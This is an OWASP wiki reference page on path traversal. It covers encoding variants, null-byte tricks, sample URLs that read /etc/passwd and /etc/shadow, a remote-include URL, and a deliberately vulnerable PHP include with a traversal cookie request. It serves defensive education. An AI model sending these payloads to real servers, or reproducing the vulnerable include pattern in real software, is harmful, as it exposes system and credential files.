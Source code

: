 ```yaml
---

layout: col-sidebar
title: Path Traversal
author: 
contributors: 
permalink: /attacks/Path_Traversal
tags: attack, Path Traversal
auto-migrated: 1

---
```


## Overview

A path traversal attack (also known as directory traversal) aims to
access files and directories that are stored outside the web root
folder. By manipulating variables that reference files with
“dot-dot-slash (../)” sequences and its variations or by using
absolute file paths, it may be possible to access arbitrary files and
directories stored on file system including application source code or
configuration and critical system files. It should be noted that access
to files is limited by system operational access control (such as in the
case of locked or in-use files on the Microsoft Windows operating
system).

This attack is also known as “dot-dot-slash”, “directory traversal”,
“directory climbing” and “backtracking”.

## Related Security Activities

### How to Avoid Path Traversal Vulnerabilities

See the [OWASP Guide](:Category:OWASP_Guide_Project "wikilink") article
on how to [Avoid Path Traversal](File_System#Path_traversal "wikilink")
Vulnerabilities.

### How to Test for Path Traversal Vulnerabilities

See the [OWASP Testing
Guide](:Category:OWASP_Testing_Project "wikilink") article on how to
[Test for Path
Traversal](Testing_for_Path_Traversal_\(OWASP-AZ-001\) "wikilink")
Vulnerabilities.

## Description

### Request variations

Encoding and double encoding:

`%2e%2e%2f represents ../`
`%2e%2e/ represents ../`
`..%2f represents ../ `
`%2e%2e%5c represents ..\`
`%2e%2e\ represents ..\ `
`..%5c represents ..\ `
`%252e%252e%255c represents ..\ `
`..%255c represents ..\ and so on. `

**Percent encoding (aka URL encoding)**

Note that web containers perform one level of decoding on percent
encoded values from forms and URLs.

`..%c0%af represents ../ `
`..%c1%9c represents ..\ `

**OS specific**

UNIX

`Root directory:  “ / “ `
`Directory separator: “ / “`

WINDOWS

`Root directory: “  `<partition letter>` : \ “`
`Directory separator: “ / “ or “ \ ” `
`Note that windows allows filenames to be followed by extra . \ / characters.`

In many operating systems, null bytes %00 can be injected to terminate
the filename. For example, sending a parameter like:

`?file=secret.doc%00.pdf`

will result in the Java application seeing a string that ends with
".pdf" and the operating system will see a file that ends in ".doc".
Attackers may use this trick to bypass validation routines.

## Examples

### Example 1

The following examples show how the application deals with the resources
in use.

` http://some_site.com.br/get-files.jsp?file=report.pdf  `
` http://some_site.com.br/get-page.php?home=aaa.html  `
` http://some_site.com.br/some-page.asp?page=index.html  `

In these examples it’s possible to insert a malicious string as the
variable parameter to access files located outside the web publish
directory.

`  http://some_site.com.br/get-files?file=../../../../some dir/some file `

`  http://some_site.com.br/../../../../some dir/some file `

The following URLs show examples of \*NIX password file exploitation.

`http://some_site.com.br/../../../../etc/shadow  `
`http://some_site.com.br/get-files?file=/etc/passwd `

Note: In a windows system an attacker can navigate only in a partition
that locates web root while in the Linux he can navigate in the whole
disk.

### Example 2

It's also possible to include files and scripts located on external
website.

` http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php   `

### Example 3

These examples illustrate a case when an attacker made the server show
the CGI source code.

` http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi   `

### Example 4

This example was extracted from: Wikipedia - Directory Traversal

A typical example of vulnerable application code is:

    <nowiki>
    <?php
    $template = 'blue.php';
    if ( is_set( $_COOKIE['TEMPLATE'] ) )
       $template = $_COOKIE['TEMPLATE'];
    include ( "/home/users/phpguru/templates/" . $template );
    ?>
    </nowiki>

An attack against this system could be to send the following HTTP
request:

    GET /vulnerable.php HTTP/1.0
    Cookie: TEMPLATE=../../../../../../../../../etc/passwd

Generating a server response such as:

    HTTP/1.0 200 OK
    Content-Type: text/html
    Server: Apache

    root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh
    daemon:*:1:1::/tmp:
    phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh

The repeated `../` characters after /home/users/phpguru/templates/ has
caused [include()](http://www.php.net/manual/en/function.include.php) to
traverse to the root directory, and then include the UNIX password file
[/etc/passwd](passwd "wikilink").

UNIX etc/passwd is a common file used to demonstrate **directory
traversal**, as it is often used by crackers to try cracking the
passwords.

### Absolute Path Traversal

The following URLs may be vulnerable to this attack:

`http://testsite.com/get.php?f=list`
`http://testsite.com/get.cgi?f=2`
`http://testsite.com/get.asp?f=test`

An attacker can execute this attack like this:

`http://testsite.com/get.php?f=/var/www/html/get.php`
`http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc`
`http://testsite.com/get.asp?f=/etc/passwd`

When the web server returns information about errors in a web
application, it is much easier for the attacker to guess the correct
locations (e.g. path to the file with a source code, which then may be
displayed).

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category: Information
    Disclosure](:Category:_Information_Disclosure "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Path Manipulation](Path_Manipulation "wikilink")
  - [Relative Path Traversal](Relative_Path_Traversal "wikilink")
  - [Resource Injection](Resource_Injection "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")

## References

  - <http://cwe.mitre.org/data/definitions/22.html>
  - <http://www.webappsec.org/projects/threat/classes/path_traversal.shtml>

\[\[Category:FIXME|link not working

  - <http://cve.mitre.org/docs/plover/SECTION.9.6.html#PATH.TRAV>

\]\]

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[this link doesn't exist. Do you want to change this to a different link
or add this category?](Category:FIXME "wikilink") [Category:Abuse of
Functionality](Category:Abuse_of_Functionality "wikilink")
[Category:Path Traversal
Attack](Category:Path_Traversal_Attack "wikilink") [Category:Resource
Manipulation](Category:Resource_Manipulation "wikilink")
[Category:Attack](Category:Attack "wikilink")